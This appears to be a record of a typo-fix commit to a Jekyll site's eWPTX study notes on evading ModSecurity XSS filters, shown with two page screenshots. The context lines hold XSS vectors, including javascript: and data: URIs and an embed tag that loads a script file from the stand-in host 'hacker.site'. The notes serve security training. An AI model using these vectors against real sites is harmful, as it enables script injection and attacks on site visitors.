

Before and after one commit to Johnermac/Johnermac.github.io, a Jekyll site: the page built from _posts/notes/ewptx/2023-11-29-xssfilter.md, in a window 1280 px wide and 900 px high, scrolled down 1668 px. Shown: the whole window, without its empty margins (0-999 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries.

Commit message:
xss chapters added (correction tag)

````diff
--- a/_posts/notes/ewptx/2023-11-29-xssfilter.md
+++ b/_posts/notes/ewptx/2023-11-29-xssfilter.md
@@ -59,7 +59,7 @@
 ## ModSecurity > Script Tag Based XSS Vectors Rule
 There are several alternatives in which its possible to run our code, such as different HTML tags and related event handlers.
 
-### Beyong <script> Tag... Using HTML Attributes
+### Beyond script Tag... Using HTML Attributes
 ```js
 <a href="javascript:alert(1)">show</a>
 <a href="data:text/html;base64,<alert(1) encoded>"show</a>
@@ -73,7 +73,7 @@
 <embed code="//hacker.site/xss.swf" allowscriptaccess=always>
 ```
 
-### Beyong <script> Tag... Using HTML Events
+### Beyond script Tag... Using HTML Events
 - Events are they way that HTML DOM adds interactivity between the website and its visitors; This happens simply by executing the client-side code (e.g, JavaScript)
 
 Almost all event handler identifier start with **on** and are followerd by the name of the event. One of the most used is **onerror**:
````
